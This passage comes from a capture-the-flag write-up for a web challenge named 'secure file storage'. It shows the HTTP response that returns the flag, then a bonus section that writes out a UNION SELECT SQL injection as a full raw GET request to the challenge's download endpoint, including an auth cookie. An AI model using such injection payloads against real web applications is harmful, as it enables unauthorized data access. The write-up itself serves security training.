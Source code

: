 #### Response:
```
HTTP/1.1 200 OK
Server: gunicorn
Date: Mon, 08 Jul 2024 01:06:24 GMT
Connection: close
Content-Disposition: attachment; filename=flag.txt
Content-Type: text/plain; charset=utf-8
Content-Length: 26
Last-Modified: Fri, 10 May 2024 12:30:21 GMT
Cache-Control: no-cache
ETag: "1715344221.0-26-261423960"

SIVUSCG{b1t_fl1pp3d_f1l3s}
```

## Bonus

While the `/file/download` endpoint supported `POST` requests this time around, only `GET` requests were supported during the actual CTF. Let's get the flag using a `GET` request, since it provides more nuance and was actually how to do it during the CTF.

If we simply try to base64 encode our payload and try to `/api/download/999999+UNION+SELECT+1,149,"","eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q%3d","TNcwOVhmXhTe0gI7FM7cWE3owTKu76t278iGYK5TBh8%3d"` you will notice that we will get an error

### Request
```
GET /api/files/download/999999+UNION+SELECT+1,149,"","eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q%3d","TNcwOVhmXhTe0gI7FM7cWE3owTKu76t278iGYK5TBh8%3d" HTTP/1.1
Host: uscybercombine-s4-web-secure-file-storage.chals.io
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFyanVuIiwiaWQiOjE0OX0.bow8Xe0vVpNhybZknSuCSw9OxDDJfXY3cuXFhcVZ-AE
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://uscybercombine-s4-web-secure-file-storage.chals.io/files
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```
